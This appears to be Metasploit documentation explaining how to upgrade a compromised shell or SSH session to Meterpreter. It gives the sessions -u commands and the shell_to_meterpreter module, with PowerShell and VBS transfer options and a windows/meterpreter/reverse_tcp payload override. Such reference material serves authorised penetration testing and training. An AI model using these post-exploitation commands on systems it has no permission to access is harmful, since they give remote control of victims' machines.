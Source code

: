 ## Upgrading shells to Meterpreter
---
If you have an existing session, either Meterpreter, an SSH, or a basic command shell - you can open a new Meterpreter session with:

```
sessions -u 3
```

To upgrade the most recently opened session to Meterpreter using the `sessions` command:

```
sessions -u -1
```

Or run the `shell_to_meterpreter` module manually:

```
use multi/manage/shell_to_meterpreter
run session=-1
run session=-1 win_transfer=POWERSHELL
run session=-1 win_transfer=VBS
```

If you want to upgrade your shell with fine control over what payload, use the `PAYLOAD_OVERRIDE`, `PLATFORM_OVERRIDE`, and on windows, `PSH_ARCH_OVERRIDE`. All 3 options are required to set an override on windows, and the first two options are required on other platforms, unless you are not using an override.

```
use multi/manage/shell_to_meterpreter
set SESSION 1
set PAYLOAD_OVERRIDE windows/meterpreter/reverse_tcp
set PLATFORM_OVERRIDE windows
set PSH_ARCH_OVERRIDE x64
```